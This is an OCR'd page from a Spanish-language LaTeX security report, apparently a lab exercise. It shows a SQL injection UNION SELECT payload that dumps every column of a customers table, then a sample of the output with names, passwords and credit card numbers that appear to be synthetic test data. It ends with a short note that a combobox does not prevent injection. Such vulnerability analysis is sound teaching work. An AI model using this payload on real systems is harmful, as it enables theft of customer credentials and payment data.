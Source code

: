 \documentclass{article}
\begin{document}
Por último, se utiliza esto para imprimir la lista de todos los clientes con todos sus datos usando la siquiente entrada:

\begin{lstlisting}
a' union select address2 || ' ' || creditcardexpiration || ' ' || address1 || ' ' || cmin || ' ' || country || ' ' || age || ' ' || customerid || ' ' || xmin || ' ' || city || ' ' || password || ' ' || tableoid || ' ' || ctid || ' ' || credit || ' ' || state || ' ' || zip || ' ' || phone || ' ' || cmax || ' ' || region || ' ' || lastname || ' ' || email || ' ' || creditcard || ' ' || creditcardtype || ' ' || firstname || ' ' || username || ' ' || gender || ' ' || xmax from customers where '1'='1
\end{lstlisting}

Lo que resulta en lo siguiente:
\begin{lstlisting}
  aachen cobain 201310 fish faggot 141 0 UK 41 8297 45422 rote brute 20692 (76,8) 21876 hustle 17898 +31 292723366 0 billet marc char.marc@jmail.com 4215223247965149 VISA char koch M 0
  abacus danial 201401 babar ritual 224 0 Hong Kong 30 2565 45422 decree russia 20692 (170,18) 54584 beware 53132 +9 708173334 0 chou debark landis.debark@kran.com 4851574696347234 Mastercard landis souths2565 M 0
  abacus former 201206 gilead votary 270 0 Morocco 35 7814 45422 lessen mort 20692 (255,36) 49677 lorene 46651 +32 848738180 0 aileen hecuba crick.hecuba@potmail.com 4515032501163616 Mastercard crick bow7814 M 0
  abacus toasty 201204 toad ahab 66 0 Algeria 53 9796 45422 azania dix 20692 (287,26) 59212 veto 24135 +15 904018666 0 marsh ieee vetoes.ieee@kran.com 4380476712419911 American vetoes unbred9796 M 0
  abaft kathie 201506 alvaro crunch 74 0 Yugoslavia 30 5165 45422 privy post 20692 (47,30) 21635 alarm 42222 +50 428443915 0 stem iran steve.iran@jmail.com 4083182254722984 American steve eula M 0
  abase yet 201202 amity sallow 269 0 Luxembourg 52 11425 45422 aiken coerce 20692 (314,16) 17808 wisdom 38695 +13 866839246 0 kalb punk nit.punk@kran.com 4972076376273655 Mastercard nit shoal11425 F 0
[...]
\end{lstlisting}
{\footnotesize Salida completa en \texttt{customers.html}}

\subsubsection{Solución y mejoras}

Una combobox puede ser una solución aceptable para evitar al menos que un usuario ataque usando simplemente un navegador, sin embargo, no sigue siendo una solución segura, pues herramientas como \texttt{curl} permiten fácilmente construir peticiones http de cualquier tipo con cualquier valor en los campos enviados, luego sigue dejando abierta la posibilidad de un ataque mediante inyección de código.
\end{document}
